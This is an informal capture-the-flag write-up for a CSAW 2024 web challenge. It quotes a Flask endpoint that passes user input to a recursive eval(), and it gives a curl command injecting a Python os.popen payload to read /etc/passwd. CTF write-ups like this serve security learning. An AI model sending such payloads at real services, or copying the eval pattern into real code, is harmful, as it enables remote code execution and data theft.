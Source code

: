 # CSAW_Writeup
## Playing on the Back courts Writeup
## Catgroy: WEB
## CSAW CTF Qualification 2024
lets skip laplapla and dive deep into #Exploit

{%with HINT%}
as you can see from orginal challnge code "/app_public.py"
you can see this itrset route:

```
@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']
        
        return jsonify(status='success', result=deep_eval(expr))
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))
```
hmmm! look wired its not possible to be esay like this rigth ??!
lets see the ``` deep_eval() ``` function

```
def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr
    
    return deep_eval(nexpr)
```

whaaaaaaaaaaaaaaat he realy execute our code !?
okay we will just send our python to get executed
lets do it

```
bash
$ python3 app_public.py
$ curl 127.0.0.1:5000/get_eval -d '{"expr": "__import_('os').popen('cat /etc/passswd').read()"}' 
```
DO WE Get it ~~!!?
{%HINTEND%}
